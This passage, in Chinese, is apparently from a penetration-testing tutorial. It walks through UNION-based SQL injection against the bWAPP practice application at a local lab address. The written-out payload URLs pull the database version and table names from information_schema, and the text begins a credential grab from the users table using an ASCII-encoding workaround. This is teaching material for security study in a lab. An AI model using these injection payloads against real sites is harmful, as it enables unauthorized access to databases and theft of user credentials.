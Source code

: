 1.  要检查数据库版本，我们可以在以下 URL 中将`@@version`替换为一个有漏洞的表，得到`http://192.168.56.101/bWAPP/sqli_1.php?title=1' union select 1, @@version,3,4,5,6,7-- -`：

![](img/dd33688b-c824-4c75-ae8a-c456bba50eac.png)

1.  现在我们可以尝试通过以下 URL 获取表名`http://192.168.56.101/bWAPP/sqli_1.php?title=1' union select 1,table_name,3,4,5,6,7 from information_schema.tables-- -`：

![](img/d7ed96cb-695a-4fa9-9cc5-ae2cad9596fc.png)

现在，我们已经获得了数据库中的所有表。以下表是由开发人员创建的：

![](img/d83a745e-bd75-4e27-8ff2-f9e026eec4e7.png)

1.  我们现在将尝试从`users`表中检索用户凭据。首先，我们需要从用户表中获取列的名称。您可能会遇到 PHP 魔术方法的一个小问题：错误不允许我们在 PHP 魔术方法中插入/查询字符串。例如，如果我们在 URL 中插入`users`字符串，那么我们将无法从`users`表中检索信息，这意味着数据库不会返回任何列。为了绕过这个错误，将`users`字符串转换为 ASCII。`users`的 ASCII 值是**117 115 101 114 115**。
